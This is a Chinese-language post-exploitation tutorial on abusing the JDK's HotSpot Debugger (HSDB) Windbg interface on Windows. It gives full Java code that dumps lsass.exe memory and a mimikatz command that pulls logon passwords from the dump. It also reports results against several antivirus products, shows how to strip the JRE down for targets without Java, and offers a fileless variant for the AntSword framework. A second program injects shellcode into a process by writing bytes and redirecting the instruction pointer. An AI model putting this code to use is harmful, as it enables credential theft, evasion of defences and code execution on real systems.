# HotSpot Debugger

> Godzilla 作者 Beichen 在 ISC-2022 大会议题《JVM 核心对抗》中介绍的一个基于 Java 环境下的 Web 后渗透技巧

- [JVM 核心对抗 - 视频](https://isc.360.com/2020/detail.html?vid=3699)
- [JVM 核心对抗 - PPT](https://mp.weixin.qq.com/s?__biz=Mzg5OTQ3NzA2MQ==&mid=2247486782&idx=1&sn=2719a799edf460319b0006e11ef72b94&chksm=c053f614f7247f02ffb9e47804bc3efaa7b4db14756443a24632df8631ed8522dc8fcf9220c7&scene=58&subscene=0#rd)

## HSDB简介
HSDB（HotSpot Debugger）是 JDK 自带的调试工具，可用于调试 JVM 运行时数据，提供了 GUI 界面来进行 Java 应用程序的调试。为了实现 HSDB ，JDK 封装了一套 Windbg 调试接口 [WindbgDebuggerLocal](https://cr.openjdk.org/~poonam/SA-javadocs/sun/jvm/hotspot/debugger/windbg/WindbgDebuggerLocal.html) ，本文主要利用该接口实现 Dump lsass 以及 Shellcode 加载

Java9 之前，`JAVA_HOME/lib/`目录下有个`sa-jdi.jar`，可以通过如下命令启动 HSDB (图形界面)及 CLHSDB (命令行)。JDK11 之后则为`JAVA_HOME/bin/`目录下`jhsdb`。启动命令如下：

```shell
# JDK-9
# C:\Program Files\Java\jdk1.8.0_201\lib
# /Library/Java/JavaVirtualMachines/jdk_xxx/Contents/Home/lib
$ java -cp sa-jdi.jar sun.jvm.hotspot.HSDB
# 通过 jps 命令查找到当前用户运行的Java进程

# JDK-11 
# /Library/Java/JavaVirtualMachines/jdk_xxx/Contents/Home/bin/jhsdb
$ jhsdb hsdb              # GUI界面
$ jhsdb jmap --pid <pid>  # 直接Attach进程

```


## HSDB_Dumper

### 简单调试

虽然 HSDB 提供了 GUI 界面，但 HSDB **并不支持直接对本地进程进行操作**，需要连接到正在运行的 Java 虚拟机进程中再进行调试



创建一个`HookTest`类并运行，使用`jps`命令查看进程`pid`，然后使用`HSDB`进行连接再进行调试
```shell
$ javac -d . HookTest.java  # 编译
$ java lab.hsdb.HookTest

```
```java
package lab.hsdb;
import java.util.Scanner;

public class HookTest {
    public static void main(String[] args) {
        try {
            String s1 = "TestString";
            System.out.println("Output s1: " + s1);

            Scanner scanner = new Scanner(System.in);
            System.out.print("Input s2：");
            String s2 = scanner.nextLine();
            System.out.println("Output s2: " + s2);

            scanner.close();
        }
        catch (Exception e){
            return;
        }
    }
}

```



### Dump-Lsass
> 核心原理：Java 调试进程时会调用 Windbg 接口，并且**支持输入自定义的 Windbg 语句**

前面提到，GUI 界面并不支持对本地进程进行转储。所以如果直接在 Debugger Console 执行`.dump`命令，转储的是当前 JVM 进程，而不是所需要的`lsass`进程

如果要转储`lsass`进程，则需要编写代码，通过无图形化的方式进行。
添加依赖：在项目中创建一个`lib`目录，然后把`tools.jar`和`sa-jdi.jar`放进去，并在`pom.xml`中配置
```xml
<dependencies>
    <dependency>
        <groupId>com.sun</groupId>
        <artifactId>tools</artifactId>
        <version>1.8.0</version>
        <scope>system</scope>
        <systemPath>${project.basedir}/lib/tools.jar</systemPath>
    </dependency>
    <dependency>
        <groupId>com.sun</groupId>
        <artifactId>sa-jdi</artifactId>
        <version>1.8.0</version>
    <scope>system</scope>
    <systemPath>${project.basedir}/lib/sa-jdi.jar</systemPath>
    </dependency>
</dependencies>

```

创建一个调试器，再通过 HSDB 命令连接到指定进程
```java
// Dump-Lsass

package lab.hsdb;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;

import sun.jvm.hotspot.debugger.MachineDescriptionAMD64;
import sun.jvm.hotspot.debugger.windbg.WindbgDebuggerLocal;

public class HSDB_Dumper {
    public static void dumper(int pid) {
        /*
         * pid: lsass 进程ID
        */
        WindbgDebuggerLocal debuggerLocal = new WindbgDebuggerLocal(new MachineDescriptionAMD64(), false);  // AMD64架构，不显示调试器GUI
        debuggerLocal.attach(pid);  // 连接到指定进程
        System.out.println(debuggerLocal.consoleExecuteCommand(".dump /ma lsass.dmp"));  // 使用.dump命令转储
        debuggerLocal.detach();    // 断开连接
    }

    public static int getLsassPid(){
        int pid = -1;
        try {
            // 执行命令获取进程列表
            Process process = new ProcessBuilder("tasklist").start();

            // 读取命令输出
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                // 寻找包含 lsass.exe 的行
                if (line.toLowerCase().contains("lsass.exe")) {
                    // 解析 PID
                    String[] parts = line.split("\\s+");
                    String pidString = parts[1];
                    pid = Integer.parseInt(pidString);
                    System.out.println("[+] Lsass PID: " + pidString);
                    break;
                }
            }
            // 关闭流
            reader.close();

        } catch (IOException e) {
            e.printStackTrace();
        }
        return pid;
    }
    public static void main(String[] args) {
        int pid = getLsassPid();

        if (pid != -1) {
            try {
                dumper(pid);
            } catch (NumberFormatException e){
                System.out.println("[-] Dump Lsass Error ...");
            }
        }

    }
}
```


### 打包JAR
在`Project Structure - Artifacts`中添加工件，选择`Add JAR - From modules with dependencies`，并选择`Main Class`为要执行的类





然后在`Output Layout`选项卡中的`Extracted Directory`添加`tools.jar`和`sa-jdi.jar`，然后点击`Build - Build Artifact`进行构建



核晶、趋势可以直接过：



卡巴斯基：未成功，无告警。此处报错和使用普通用户权限执行的报错一样。猜测卡巴监控了进程活动，并根据特定行为规则识别并进行拦截



Mimikatz 正常解密：
```shell
# tasklist | findstr lsass.exe
$ java -jar HSDB.jar <pid> lsass.dmp

# mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"

```


### 精简JRE
注意到实际上调用的是`{JAVA_Home}/jre/bin/`中自带的 DLL ，那么是不是可以精简 JRE 包，以便于在未安装 Java 的目标环境中使用呢？



> 前提是要将`%JAVA_HOME%/lib/`中的`sa-jdi.jar`和`tools.jar`打包到`jar`中

这里采取的办法是直接运行 Jar 包，等跑起来后再删除`{JAVA_Home}/jre/bin/`以及`{JAVA_Home}/jre/lib/`中的文件，这样被调用的文件就会显示被占用而无法删除。（注意记得提前备份好`jre/`目录）另外`jre/bin/java.exe`和`jre/lib/amd64/jvm.cfg`（JVM 配置文件）不能删除。

在原有代码基础上添加下面几句，保持控制台不退出：
```java
try {
    System.in.read();
}
catch (Exception e){
    return;
}

```

精简后的`jre`约为`70M` ，其中`jre/lib/rt.jar`占了`60.5M`



### As-Exploits无文件利用
在蚁剑后渗透框架 As-Exploits v1.5 中新增了 JS 引擎执行模块，这里可以采用该 JS 引擎来实现进行调用
```java
// Combined Java code
var windbg = Java.type("sun.jvm.hotspot.debugger.windbg.WindbgDebuggerLocal");
var desc = Java.type("sun.jvm.hotspot.debugger.MachineDescriptionAMD64");
var debuggerLocal = new windbg(new desc(), false);
debuggerLocal.attach(<pid>);    // 修改PID
java.lang.System.out.println(debuggerLocal.consoleExecuteCommand(".dump /ma lsass.dmp"));
debuggerLocal.detach();

```


## HSDB_Loader
除此之外，还可以利用 Windbg 来进行 ShellCode 的加载，这里 ShellCode 使用`EB`命令实现

### EB命令
EB 命令是 Windbg 的调试器命令，用于在指定的内存地址写入字节，或者在目标进程的内存中修改字节：
```java
eb <Addr> <Byte>
# Addr: 内存地址
# Byte: 字节值

# eb 1a150000 0x48 0x31 0xC9 0x48 ...

```

### Load-ShellCode
1、申请内存：`address`是通过执行 Windbg 的`.dvalloc`命令，申请一块`10000`字节大小的内存
2、写入 ShellCode：通过`EB`命令将一段十六进制格式的 Shellcode 写入目标进程的内存中。
3、执行 ShellCode：
> 处理器指令寄存器（Instruction Pointer，简称`IP`）指示了下一条要执行的指令在内存中的地址。这是一种跳转执行的技术，它通过修改程序的执行流程，使其从 Shellcode 开始执行，而不是按原始程序的正常流程执行。

```java
import sun.jvm.hotspot.debugger.MachineDescriptionAMD64;
import sun.jvm.hotspot.debugger.windbg.WindbgDebuggerLocal;

public static void LoadShellCode(int pid, String shellcode){
    // 创建AMD64架构的调试器，并连接到进程
    WindbgDebuggerLocal debuggerLocal = new WindbgDebuggerLocal(new MachineDescriptionAMD64(), false);

    debuggerLocal.attach(pid);
    System.out.println("[+] Attach Process ...");
    System.out.println("shellcodeLen: " + shellcode.length());

    // 申请一块大小为10000字节的内存
    String result = debuggerLocal.consoleExecuteCommand(".dvalloc 10000");
    System.out.println("dvalloc: " + result);
    // dvalloc: Allocated 10000 bytes starting at 0000015c`24190000

    // 根据关键字"starting at"的下标找到内存地址
    String addressToken = "starting at ";
    int index = result.indexOf(addressToken);
    // 获取分配的内存地址
    String address = result.substring(index + addressToken.length()).trim();
    System.out.println("address: " + address);

    System.out.println("Exec-s1: " + "EB " + address + " " + hexFormat(shellcode));
    String s1 = debuggerLocal.consoleExecuteCommand("eb " + address + " " + hexFormat(shellcode));
    System.out.println(s1);

    // 将处理器指令寄存器(@$ip)设置为Shellcode的起始地址，即执行 ShellCode 所在内存
    System.out.println("Exec-s2: " + "r @$ip=" + address);
    String s2 = debuggerLocal.consoleExecuteCommand("r @$ip=" + address);
    System.out.println(s2);

    // 释放进程
    debuggerLocal.detach();
    System.out.println("[-] Detach Process ...");
}

```

ShellCode 构造如下：
`encodeHexString()`将字节数组转换为十六进制格式的字符串，`hexFormat()`将该字符串每2位进行分割
```java
import javax.xml.bind.DatatypeConverter;

public static String encodeHexString(byte[] byteArray) {
    return DatatypeConverter.printHexBinary(byteArray);
}

public static String hexFormat(String shellcode) {
    StringBuilder hex = new StringBuilder();
    for (int i = 0; i < shellcode.length(); i += 2) {
        String byteString = shellcode.substring(i, i + 2);
        hex.append("0x").append(byteString).append(" ");
    }
    return hex.toString().trim();
}


```

需要指定 Java 进程，因为在前面获取到的内存地址是 JVM 中的虚拟内存地址，后续通过`@$ip`将指针指向该地址后，如果是 Java 进程则会马上自动执行到该地址，而其它进程则不会执行或隔一段时间才会执行。



完整代码：

```java
// Load-ShellCode

package lab.hsdb;

import sun.jvm.hotspot.debugger.MachineDescriptionAMD64;
import sun.jvm.hotspot.debugger.windbg.WindbgDebuggerLocal;
import javax.xml.bind.DatatypeConverter;

public class HSDB_Loader {
    public static String encodeHexString(byte[] byteArray) {
        return DatatypeConverter.printHexBinary(byteArray);
    }

    public static String hexFormat(String shellcode) {
        StringBuilder hex = new StringBuilder();
        for (int i = 0; i < shellcode.length(); i += 2) {
            String byteString = shellcode.substring(i, i + 2);
            hex.append("0x").append(byteString).append(" ");
//            hex.append(byteString).append(" ");
        }
        return hex.toString().trim();
    }

    public static void LoadShellCode(int pid, String shellcode){
        // 创建AMD64架构的调试器，并连接到进程
        WindbgDebuggerLocal debuggerLocal = new WindbgDebuggerLocal(new MachineDescriptionAMD64(), false);

        debuggerLocal.attach(pid);
        System.out.println("[+] Attach Process ...");
        System.out.println("shellcodeLen: " + shellcode.length());

        // 申请一块大小为10000字节的内存
        String result = debuggerLocal.consoleExecuteCommand(".dvalloc 10000");
        System.out.println("dvalloc: " + result);
        // dvalloc: Allocated 10000 bytes starting at 0000015c`24190000

        // 根据关键字"starting at"的下标找到内存地址
        String addressToken = "starting at ";
        int index = result.indexOf(addressToken);
        // 获取分配的内存地址
        String address = result.substring(index + addressToken.length()).trim();
        System.out.println("address: " + address);

        System.out.println("Exec-s1: " + "EB " + address + " " + hexFormat(shellcode));
        String s1 = debuggerLocal.consoleExecuteCommand("eb " + address + " " + hexFormat(shellcode));
        System.out.println(s1);

        // 将处理器指令寄存器(@$ip)设置为Shellcode的起始地址，即执行 ShellCode 所在内存
        System.out.println("Exec-s2: " + "r @$ip=" + address);
        String s2 = debuggerLocal.consoleExecuteCommand("r @$ip=" + address);
        System.out.println(s2);

        // 释放进程
        debuggerLocal.detach();
        System.out.println("[-] Detach Process ...");
    }

    public static void main(String[] args) {
        // msfvenom -p windows/x64/exec cmd=calc.exe -f java --bad "\x00"
        
        byte[] shellcodeBytes = {
            // (byte) 0x48,(byte) 0x31,(byte) 0xc9,(byte) 0x48,(byte) 0x81 ...
        };

        // 将字节数组转换为十六进制格式的字符串
        String shellcodeHexString = encodeHexString(shellcodeBytes);
        System.out.println(shellcodeHexString);
        System.out.println("==============================");
        System.out.println(hexFormat(shellcodeHexString));

        LoadShellCode(9916, shellcodeHexString);

        /*
        int pid;
        if (args.length != 0) {
            try {
                pid = Integer.parseInt(args[0]);
                System.out.println("Load Pid: " + pid);
                LoadShellCode(pid, shellcodeHexString);
            } catch (NumberFormatException e){
                System.out.println("Input Error ...");
            }
        }
        else {
            System.out.println("Please Input Pid ...");
        }
        */

    }

}

```

## 疑难杂症

### 导入sun.jvm出错
缺少模块导致，在`pom.xml`中引入`sa-jdi.jar`即可



### 没有主清单属性
没有主清单属性：`MANIFEST.MF`文件不包含`Class-Path`条目，即缺少`Main-Class: lab.hsdb.HSDB_Dumper` 
解决：构建工件时，主类时需选择`Main Class`

```java
# MANIFEST.MF
Manifest-Version: 1.0
Main-Class: lab.hsdb.HSDB_Dumper

```


### 找不到主类
找不到主类：使用`maven-jar-plugin`插件打包需要手动指定主类，可以换成 `maven-assembly-plugin` 插件打包，可生成包含所有依赖的 JAR 文件 



但是此处不知道什么原因，使用 Maven 两个依赖包一直都打不进去。后使用 IDEA 自带的构建工具成功打包，注意需要将`tools.jar`和`sa-jdi.jar`添加到项目中


### 缺少DLL
> 一开始使用 [Oracle-JDK-21 ](https://download.oracle.com/java/21/latest/jdk-21_windows-x64_bin.exe) 报了这个错，后面重装成 [Zulu-JDK-8u392](https://cdn.azul.com/zulu/bin/zulu8.74.0.17-ca-jdk8.0.392-win_x64.msi) 就可以了。观察发现 Zulu 版调用了自带的`jre/bin/sawindbg.dll`，而 Oracle 那版没有`jre/`

原因是没找到`sawindbg.dll`文件，解决办法是将`sawindbg.dll`放到`jre/bin/`目录下
```shell
Exception in thread "main" java.lang.UnsatisfiedLinkError: C:\Program Files\Java\jdk-21\bin\sawindbg.dll: Can't find dependent libraries
      at java.base/jdk.internal.loader.NativeLibraries.load(Native Method)
      at java.base/jdk.internal.loader.NativeLibraries$NativeLibraryImpl.open(NativeLibraries.java:331)
      at java.base/jdk.internal.loader.NativeLibraries.loadLibrary(NativeLibraries.java:197)
      at java.base/jdk.internal.loader.NativeLibraries.loadLibrary(NativeLibraries.java:139)
      at java.base/java.lang.ClassLoader.loadLibrary(ClassLoader.java:2418)
      at java.base/java.lang.Runtime.load0(Runtime.java:852)
      at java.base/java.lang.System.load(System.java:2021)
      at sun.jvm.hotspot.debugger.windbg.WindbgDebuggerLocal.<clinit>(WindbgDebuggerLocal.java:661)
      at lab.hsdb.HSDB_Dumper.dumper(HSDB_Dumper.java:10)
      at lab.hsdb.HSDB_Dumper.main(HSDB_Dumper.java:25)
```



### Windbg Error

报错：`Windbg Error: WaitForEvent failed!`，原因是权限不足，使用管理员权限运行即可



### Shellcode

弹计算器：[https://ghostasky.github.io/2022/04/08/ShellCodeLoader/](https://ghostasky.github.io/2022/04/08/ShellCodeLoader/)
```java
# 注意 Shellcode 位数
